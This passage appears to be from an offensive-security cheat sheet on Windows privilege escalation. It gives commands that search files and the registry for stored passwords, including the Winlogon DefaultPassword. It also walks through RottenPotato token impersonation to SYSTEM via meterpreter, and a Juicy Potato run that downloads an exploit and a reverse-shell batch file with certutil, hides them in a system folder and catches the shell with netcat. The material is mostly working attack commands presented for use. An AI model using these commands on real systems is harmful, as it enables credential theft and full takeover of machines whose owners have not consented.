 ```
PS > cmd /c dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
PS > cmd /c where /R C:\ *.ini
PS > reg query HKLM /f "password" /t REG_SZ /s
PS > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AltDefaultUserName AltDefaultDomainName AltDefaultPassword LastUsedUsername"
Or
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | select DefaultPassword
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" | findstr /i proxy
```



### SDDL

* [habr.com/ru/company/pm/blog/442662/](https://habr.com/ru/company/pm/blog/442662/)
* [0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html](https://0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html)
* [0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html](https://0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html)
* [security-tzu.com/2020/11/01/setobjectsecurity-exe-sddl/](https://security-tzu.com/2020/11/01/setobjectsecurity-exe-sddl/)



### Potatoes


#### foxglovesec/RottenPotato

* [foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

```
meterpreter > upload [3]
meterpreter > load incognito
meterpreter > execute -cH -f rottenpotato.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

1. [github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)
2. [foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
3. [github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe](https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe)


#### ohpe/juicy-potato

```
Cmd > certutil -urlcache -split -f http://127.0.0.1/[3] C:\Windows\System32\spool\drivers\color\j.exe
Cmd > certutil -urlcache -split -f http://127.0.0.1/rev.bat C:\Windows\System32\spool\drivers\color\rev.bat
root@kali:$ nc -lvnp 443
Cmd > j.exe -l 443 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
